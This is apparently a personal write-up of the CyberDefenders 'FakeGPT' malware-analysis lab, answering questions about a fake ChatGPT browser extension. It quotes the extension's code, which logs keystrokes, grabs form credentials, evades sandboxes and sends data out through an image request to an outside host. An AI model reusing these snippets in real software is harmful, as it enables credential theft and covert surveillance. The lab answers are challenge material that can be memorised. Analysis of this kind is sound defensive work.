 ```yaml
---
author: Ricard Alcaraz
title: FakeGPT Lab - CyberDefenders
tags:
  - Cybersecurity
  - Blue Team
  - CyberDefenders
  - Malware Analysis
languages:
  - malwareanalysis
  - javascript
image:
  url: https://cyberdefenders.org/media/terraform/FakeGPT/FakeGPT.webp
  alt: fake gpt image
description: My notes about FakeGPT Lab - CyberDefenders
pubDate: 2025-08-27T17:47:00.000+02:00
heroImage: https://cyberdefenders.org/media/terraform/FakeGPT/FakeGPT.webp
---
```

## Scenario
Your cybersecurity team has been alerted to suspicious activity on your organization's network. Several employees reported unusual behavior in their browsers after installing what they believed to be a helpful browser extension named "ChatGPT". However, strange things started happening: accounts were being compromised, and sensitive information appeared to be leaking.

Your task is to perform a thorough analysis of this extension identify its malicious components.

## Documents Provided
- app.js
- crypto.js
- img.GIF
- loader.js
- manifest.json
- ui.html

## Q1: Which encoding method does the browser extension use to obscure target URLs, making them more difficult to detect during analysis?

We have several files to check, the ones I looked at first where the ones that could potentially have some sort of obscure target URLs.
Looking at app.js I found this:
```javascript
    const targets = [_0xabc1('d3d3LmZhY2Vib29rLmNvbQ==')];
```
When I saw the "==" at the end of the string I thought about Base64, I used CyberChef and the result was `www.facebook.com`, so we just found the encoding method.

**Answer:**

`Base64` 

## Q2: Which website does the extension monitor for data theft, targeting user accounts to steal sensitive information?

I found it in the previous question by decoding the Base64 string.

**Answer:**

`www.facebook.com`

 ## Q3: Which type of HTML element is utilized by the extension to send stolen data?

Here I was looking for for something related to sending data, it was not hard since the functions have a good naming. We can take a look at the function `sendToServer` and we will find the element used to send data.
```javascript
    function sendToServer(encryptedData) {
        var img = new Image();
        img.src = 'https://Mo.Elshaheedy.com/collect?data=' + encodeURIComponent(encryptedData);
        document.body.appendChild(img);
    }
```

**Answer:**

`<img>`

## Q4: What is the first specific condition in the code that triggers the extension to deactivate itself?

Now we should check the other `.js` files, because `app.js` doesn't seem to have anything related. Checking `loader.js` we can see again a little help from the developer.

```javascript
    if (navigator.plugins.length === 0 || /HeadlessChrome/.test(navigator.userAgent)) {
        alert("Virtual environment detected. Extension will disable itself.");
        chrome.runtime.onMessage.addListener(() => { return false; });
    }
```
This alert explains that it will disable itself, if the condition is fullfilled. The condition that has to be fullfilled is one or the other separated by the or "||", in this case the question asks for the first condition.

**Answer:**

`navigator.plugins.length === 0`

## Q5: Which event does the extension capture to track user input submitted through forms?

I had to comeback to `app.js`, now looking for an event and a form. And I found this part:
```javascript
    document.addEventListener('submit', function(event) {
        let form = event.target;
        let formData = new FormData(form);
        let username = formData.get('username') || formData.get('email');
        let password = formData.get('password');
```
The event that the extension captures is `submit` to track the user input through the form, that has two inputs, an user (or email) and a password, and if both are filled it will call the function `exfiltrateCredentials` with both parameters.

**Answer:**

`submit`

## Q6: Which API or method does the extension use to capture and monitor user keystrokes?

In the same file `app.js` just after the section of the code I previously mentioned we can see another event capture:
```javascript
    document.addEventListener('keydown', function(event) {
        var key = event.key;
        exfiltrateData('keystroke', key);
    });
```
In this case a `keydown` event that calls to the function `exfiltrateData`.

**Answer:**

`keydown`

## Q7: What is the domain where the extension transmits the exfiltrated data?

We already know this information from the question **Q3** where I shared the piece of code of the function `sendToServer`.

**Answer:**

`Mo.Elshaheedy.com`

## Q8: Which function in the code is used to exfiltrate user credentials, including the username and password?

Also I mentioned this function in the **Q5** so coming back to that piece of code will give us the information, care with the final ";" which in JS is not needed but it is for the answer.

**Answer:**

`exfiltrateCredentials(username, password);`

## Q9: Which encryption algorithm is applied to secure the data before sending?

Now, we should check for anything related to encryption algorithms, in the same file we can see a function with the name `encryptPayload` which seems related to the question, taking a look at it it uses the library `CryptoJS`, and now we can check where the `.encrypt()` is used. In this case we can see this:
```javascript
    const encrypted = CryptoJS.AES.encrypt(data, key, { iv: iv });
```
So the encryption algorithm is AES, and also we can see that is using custom key and IV, where the key is `SuperSecretKey123` and a randomly generated IV.

**Answer:**

`AES`

## Q10: What does the extension access to store or manipulate session-related data and authentication information?

We have to take a look to another file to get this one, in this case it's interesting to take a look at `manifest.json` in this configuration file we can see a parameter about the `permissions`:
```json
  "permissions": [
    "tabs",
    "http://*/*",
    "https://*/*",
    "storage",
    "webRequest",
    "webRequestBlocking",
    "cookies"
  ]
```

And one that seems related to the question is the value `cookies` which is a session-related data and authentication information, so this is the answer.

**Answer:**

`cookies`

